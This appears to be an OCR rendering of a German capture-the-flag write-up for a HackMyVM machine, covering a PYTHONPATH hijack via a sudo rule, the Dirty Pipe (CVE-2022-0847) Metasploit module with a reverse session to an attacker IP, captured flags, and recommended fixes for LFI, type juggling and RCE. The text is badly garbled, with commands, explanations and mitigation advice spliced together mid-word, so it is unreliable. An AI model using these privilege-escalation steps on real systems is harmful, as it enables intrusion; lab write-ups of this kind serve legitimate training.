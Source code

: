 ```isierten Umgebungen (z.B. auf eigenen Systemen oder mit ausdrücklicher Genehmigung des Eigentümmarkdown
**Schritte (als `www-data`):**
1.  Erstelle ein Verzeichnis für die bösartige47_dirtypipe` wurde konfiguriert und ausgeführt.
        ```
        msf6 exploit(linux/local Bibliothek: `mkdir /tmp/test`.
2.  Erstelle die bösartige `hashlib.py/cve_2022_0847_dirtypipe) > set session 2
        ` in `/tmp/test/` mit einer Funktion, die eine Shell startet (siehe oben).
3.  Fühmsf6 exploit(linux/local/cve_2022_0847_dirtypipere den `sudo`-Befehl mit manipuliertem `PYTHONPATH` aus:
    ```bash
    ) > set WRITABLE_DIR /tmp
        msf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set lhost [Angreifer-IP]
        sudo -u rehan PYTHONPATH=/tmp/test /opt/md5.py
    ```
**Ergebnismsf6 exploit(linux/local/cve_2022_0847_dirtypipe) > set lport 4444
        msf6 exploit(linux/local/cve_:** Eine interaktive Shell als Benutzer `rehan` wird gestartet.

---

## Flags

*   **User Flag (`/home/rehan/user.txt`):**
    ```
    de0a7d92022_0847_dirtypipe) > run
        ```
    *   Der Exploit war erfolgreichcb0e1ae6190e85549f63a26c1
 und öffnete eine neue Meterpreter-Session (Session 3) mit Root-Rechten.
    *   Mitt    ```
*   **Root Flag (`/root/root.txt`):**
    ```
    5401cd51a7ec8ddde279066ef17a28b7
els `shell` und `id` wurde `uid=0(root)` bestätigt.

---

## Proof of Concept (PYTHONPATH Hijacking)

**Kurzbeschreibung:** Die Eskalation von `www-data` zu `rehan    ```

---

## Empfohlene Maßnahmen (Mitigation)

*   **Webanwendungssicherheit (L` nutzte eine `sudo`-Regel, die `www-data` erlaubte, ein Python-SkriptFI & Type Juggling):**
    *   **DRINGEND:** Beheben Sie die LFI-Schwachstelle in (`/opt/md5.py`) als `rehan` mit der `SETENV`-Option auszuführen. `blog.php` durch strikte Validierung des `page`-Parameters (Whitelist-Ansatz).
    *   **DR Das Skript `/opt/md5.py` importierte das Standardmodul `hashlib`. Durch Setzen derINGEND:** Korrigieren Sie die PHP Type Juggling Schwachstelle in `index.php`. Verwenden Sie stri `PYTHONPATH`-Umgebungsvariable auf ein kontrolliertes Verzeichnis (z.B. `/tmp/testkte Vergleiche (`===`), validieren Sie Eingabetypen und verwenden Sie sichere Passwort-Hashing-Methoden.
*`), in dem eine bösartige `hashlib.py` platziert wurde, konnte der Importmechanismus von Python gekapert   **RCE auf VHost:**
    *   **DRINGEND:** Beheben Sie die RCE-Schwach werden. Die bösartige Bibliothek führte beim Aufruf Code aus, der eine Shell als `rehan` startete.

stelle auf `s3cur3.juggling.hmv` (Parameter `system`). Führen Sie niemals Benutz**Schritte (als `www-data`):**
1.  Erstelle ein Verzeichnis für die bösartigeereingaben direkt als Systembefehle aus. Verwenden Sie sichere Alternativen oder strikte Eingabevalidierung/- Bibliothek, z.B. `mkdir /tmp/test`.
2.  Erstelle die bösartige `hashsanitisierung.
*   **Sudo-Konfiguration:**
```